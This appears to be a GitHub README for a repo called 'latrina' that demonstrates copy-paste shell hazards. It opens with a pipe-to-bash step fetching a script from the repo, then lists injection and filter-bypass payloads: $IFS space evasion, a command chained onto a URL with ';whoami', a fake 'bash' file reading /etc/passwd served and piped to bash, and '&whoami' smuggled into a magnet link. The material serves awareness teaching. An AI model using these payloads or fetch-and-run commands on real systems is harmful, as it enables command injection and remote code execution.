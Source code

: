 # latrina
* go to https://raw.githubusercontent.com/kusky3/latrina/main/test''/harmless.sh
* read the content
* copy the url  
* run `curl -s $URL | bash` 
* get fucking owned and learn to escape  

# copypaste nightmares 
#### setting string variables without quotes    
`a=('a')`  
#### separating fields without spaces 
`echo$IFS$a`
#### separating fields without spaces or curly brackets
`a=('a');echo$IFS$a`  
`echo$IFS$9a`  
#### piping without pipes  
`wc$IFS-l$IFS<$IFS<(ls)`     
#### starting code execution in unescaped url without ampersand
`curl http://localhost/;whoami`
#### redirecting to a hidden exploit  
`mkdir bin;echo "cat /etc/passwd/" > bash; darkhttpd .`  
`curl -s http://localhost:8080/$0 | bash`
#### torrent magnets
`aria2c magnet:?xt=urn:btih:test&dn=linux.iso&whoami`
